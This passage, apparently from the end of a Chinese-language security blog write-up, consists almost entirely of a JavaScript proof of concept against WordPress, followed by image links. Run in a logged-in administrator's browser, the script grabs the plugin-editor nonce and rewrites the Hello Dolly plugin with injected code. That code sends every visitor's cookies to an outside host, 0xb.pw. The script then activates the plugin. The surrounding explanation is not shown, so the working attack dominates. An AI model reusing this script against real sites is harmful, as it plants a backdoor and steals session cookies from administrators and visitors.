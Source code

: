 这里我就不做深究了，完整的写入poc如下
```
// 写入后门
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '%3C%3Fphp%0A%2f%2a%0APlugin%20Name%3A%20Hello%20Dolly%0AVersion%3A%201.6%0A%2a%2f%0A%3F%3E%0A%3Cscript%3E%0Avar%20d%20%3D%20new%20XMLHttpRequest%28%29%3B%20%0Ad.open%28%27POST%27%2C%20%27http%3A%2f%2f0xb.pw%27%2C%20true%29%3B%20%0Ad.setRequestHeader%28%22Content-type%22%2C%22application%2fx-www-form-urlencoded%22%29%3B%0Ad.send%28%27cookie%3D%3C%3Fphp%20echo%20urlencode%28implode%28%27%23%27%2C%20%24_COOKIE%29%29%3F%3E%27%29%3B%0A%3C%2fscript%3E';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

// 开启插件
b.onreadystatechange = function(){
	if (this.readyState == 4) {
		// 解开启插件的请求回来
		c = new XMLHttpRequest();
		c.open('GET', url+'wp-admin/plugins.php', 0);
		c.send();

		sss = /(data-plugin="hello.php)[\w\s"\'<>=\-选择你好多莉\/[\].?&;]+/.exec(c.responseText);
		sss = /plugins.php([\w.?=&;]+)/.exec(sss)[0];
		sss = sss.replace(/&amp;/gi, '&')
		
		// 开启插件
		d = new XMLHttpRequest();
		d.open('GET', url+'wp-admin/'+sss, 0);
		d.send();

		// 跳回首页
		setTimeout('location.href='+url+'wp-admin/',2000);
   }
}
```

![image.png-39.8kB][9]

![image.png-25.1kB][10]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png